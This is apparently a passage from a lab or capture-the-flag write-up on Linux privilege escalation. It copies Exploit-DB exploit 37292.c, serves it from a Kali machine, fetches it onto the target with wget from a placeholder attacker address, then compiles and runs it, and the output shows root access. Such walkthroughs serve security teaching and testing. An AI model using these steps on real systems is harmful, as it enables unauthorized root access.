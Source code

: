![Screenshot 2023-02-03 at 15 13 15](https://user-images.githubusercontent.com/104169244/216752015-d75138cf-cfea-43a2-9284-26cfaa68b18e.png)

* We pull and host the exploit from Searchsploit on Kali first
* We download the applicable exploit on the remote host using `wget`
    * We use the attacking VM (Kali Linux) to host the exploit file using `python3 http.server` module (OR )`python SimpleHTTPServer`)
  * We then compile the exploit using `gcc compiler` and then executing it to escalate privileges:

```
$ ls -halt /usr/share/exploitdb/exploits/linux/local/37292.c
$ cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/Desktop/37292.c

$ which python3
# usr/bin/python -m SimpleHTTPServer 8080
# OR
$ usr/bin/python3 -m http.server 8080
```

* Use `$ which python(3)` (depending which version you want to use) to identify the `PATH` to execute.
* Python3 module = `http.server`
* Python<3 module = `SimpleHTTPServer`

![Screenshot 2023-02-03 at 15 22 14](https://user-images.githubusercontent.com/104169244/216752028-f3855356-8e07-4bfc-b244-05d626bf9bae.png)

```
$ cd /tmp
$ wget http://<kali-vm-ipaddr>:<http-port>/Desktop/37292.c
```

* We need to write to the `/tmp` directory as we come across permission failures to directly write to `./`.

![Screenshot 2023-02-03 at 15 21 23](https://user-images.githubusercontent.com/104169244/216752039-9b93fed6-8397-4d19-bfa0-6405a3066d9c.png)

## Privilege Escalation - Gaining Root Access

* From analysis of the former methodology and testing, we can then gain Root access to the system from the prior privilege escalation vulnerability:

```
$ gcc -o tro 37292.c
$ whoami
overflow
$ id
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)
$ ./tro 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
```
